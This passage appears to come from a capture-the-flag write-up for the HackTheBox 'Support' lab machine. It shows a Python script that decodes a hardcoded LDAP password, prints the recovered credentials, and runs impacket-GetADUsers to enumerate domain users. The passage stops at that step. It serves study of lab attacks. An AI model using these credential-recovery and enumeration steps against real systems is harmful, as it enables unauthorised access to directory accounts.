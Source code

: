 Using a Python script, we were able to decrypt the password:

```python
import base64
# Encoded password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"
# Step 1: Base64 decode
decoded_bytes = base64.b64decode(enc_password)
# Step 2: XOR decryption logic
key_bytes = key.encode('ascii')
decrypted_bytes = bytearray()
for i in range(len(decoded_bytes)):
    # Perform XOR operation as in the code: array[i] ^ key[i % key.Length] ^ 0xDF
    decrypted_byte = (decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]) ^ 0xDF
    decrypted_bytes.append(decrypted_byte)
# Step 3: Convert the result to a string
try:
    password = decrypted_bytes.decode('utf-8')  # Decode as UTF-8
    print("Recovered Password:", password)
except UnicodeDecodeError:
    print("Failed to decode decrypted bytes. Output may be binary:", decrypted_bytes)

```

```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

**creds**:
```plaintext
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we got credentials, we try to search in to the machine using ldap. 
ldapsearch didn't work on mine so I used impacket-GetADUser instead

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```